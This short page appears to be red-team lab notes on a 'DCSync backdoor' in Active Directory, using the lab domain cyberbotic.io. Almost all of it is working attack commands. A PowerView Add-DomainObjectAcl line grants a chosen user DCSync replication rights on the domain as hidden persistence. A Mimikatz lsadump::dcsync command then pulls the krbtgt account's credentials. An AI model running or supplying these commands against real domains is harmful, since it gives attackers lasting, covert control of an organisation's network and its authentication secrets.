 ### DCSync Backdoor

 On Domain admin privilege Console 
```

 PowerShell Add-DomainObjectAcl -TargetIdentity 'DC=cyberbotic,DC=io' -PrincipalIdentity 'r.meyer' -Rights DCSync 
 ```
 On Local Admin privilege Console
 ```

 lsadump::dcsync /user:krbtgt /domain:cyberbotic.io
```
